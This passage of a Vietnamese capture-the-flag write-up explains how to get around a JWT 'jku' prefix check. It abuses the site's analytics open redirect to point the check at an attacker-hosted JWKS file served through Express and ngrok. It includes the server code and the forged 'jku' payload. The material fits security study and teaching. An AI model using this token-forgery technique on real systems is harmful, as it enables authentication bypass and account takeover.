 
Đọc lại thì có đoạn này để check jku 
    
```js
// TODO: is this secure enough?
if (!jku.startsWith('http://127.0.0.1:1337/')) {
    throw new Error('Invalid token: jku claim does not start with http://127.0.0.1:1337/');
}
```
    
Vậy là jku phải bắt đầu bẳng url http://127.0.0.1:1337/ nên mình không thể sử dụng file từ bên ngoài. Nhưng ... Ở đây mình có thể tận dụng api analytics của web để redirect tới web của mình
    
Mình thực hiện host một service express sau và kết nối ngrok : 
    
```js
const express = require('express')

const app = express()

app.get('/', (req, res) => {
    res.status(200).send("Hello")
})

app.get('/jwks.json', (req, res) => {
    const a = {"keys":[{"kty":"RSA","n":"n10fUYzMMWdWlidSZI3Azj6J8EH57ex7wiefQboOYEUskaC3Mx9SDD96ch2STzoLgmOaqO_-Y8R5lbh9o_UYPrebaJY1OnGhLmGFxh6x2jDIWYdeixuQ8TpmnMUfmX6UGT5zQf-CYdJgKtmmDfxL0B3cbkJ-PNs4uIqiYzXXNO2BMRtJGodsrfVBPDjvyGG9Q7L_CRu95Zo5cLP3iaqIVHfZim23Pryq2iADefdbwJhaBNZzzGlxN2a_8u7o7exF2S09gcB5-5UOxoYzr34rdDd-PySFIYw1E_n5RqyT_kkxLzg_lhUYN4XxjaAxusMXsu1yMVMMohMFqii_iCoypQ","e":"AQAB","alg":"RS256","use":"sig","kid":"f49fbd81-b201-4137-9410-186e64a1d551"}]}
    res.status(200).json(a)
})

app.listen(5000, "127.0.0.1", () => {
    console.log("Connect to 5000")
})    
```
    
Sau đó sử dụng payload sau để giả jku
    
`"jku": "http://127.0.0.1:1337/api/analytics/redirect?ref=a&<NGROK-SERVER>`
    